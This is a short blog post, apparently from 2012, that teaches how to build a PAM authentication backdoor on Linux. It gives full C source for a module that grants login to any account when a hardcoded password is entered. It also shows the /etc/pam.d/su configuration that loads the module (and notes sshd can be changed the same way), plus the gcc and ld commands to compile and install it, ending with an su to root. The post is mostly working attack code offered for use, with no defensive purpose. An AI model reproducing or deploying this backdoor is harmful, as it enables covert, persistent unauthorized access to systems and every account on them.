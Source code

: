 ```yaml
---
layout: post
title:  "Tiny PAM Authentication Module Backdoor"
date:   2012-04-08 18:22:00
categories: coding security
permalink: post/tiny-pam-authentication-module-backdoor/
---
```


This trick explains you how to create a **PAM module backdoor** that allow you to login in any account of system with your own password.

### Example of pam_bd.so module as backdoor

{% highlight c %}
/* pam_bd.so - Simple PAM Module Backdoor */

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <security/pam_appl.h>
#include <security/pam_modules.h>

#define BACKPASS "SET_BACKDOOR_PASSWORD"

PAM_EXTERN int
pam_sm_setcred(pam_handle_t *pamh, int flags, int argc, const char **argv) {
        return PAM_SUCCESS;
}

PAM_EXTERN int
pam_sm_acct_mgmt(pam_handle_t *pamh, int flags, int argc, const char **argv) {
        return PAM_SUCCESS;
}

PAM_EXTERN int
pam_sm_authenticate(pam_handle_t *pamh, int flags,int argc, const char **argv) {
        char *password = NULL;
        pam_get_authtok(pamh, PAM_AUTHTOK, (const char **)&password, NULL);

        if(!strncmp(password, BACKPASS, strlen(BACKPASS)))
                return PAM_SUCCESS;

        return -1;
}
{% endhighlight %}

### Configuration

Now we need to configure PAM to load our module, first edit `/etc/pam.d/su` (if you want you can edit `/etc/pam.d/sshd` or other services that uses PAM system to perform authentication) and add/mod the lines below:

{% highlight text %}
#%PAM-1.0
nauth           sufficient      pam_rootok.so
auth            sufficient      pam_unix.so      # CHANGE TO "SUFFICIENT"
account         required        pam_unix.so
session         required        pam_unix.so
auth            sufficient      pam_bd.so        # ADD YOUR PAM MODULE FOR AUTH
account         sufficient      pam_bd.so        # ADD YOUR PAM MODULE FOR ACCOUNT
{% endhighlight %}

### Build It as library and try Login

{% highlight bash %}
eurialo $ gcc -fPIC -fno-stack-protector -c pam_bd.c
eurialo $ sudo ld -x --shared -o /lib/security/pam_bd.so pam_bd.o
eurialo $ rm pam_bd.o
eurialo $ su - root
Password: *REAL PASSWD* OR *FAKE PASSWD*
root ~ #
{% endhighlight %}
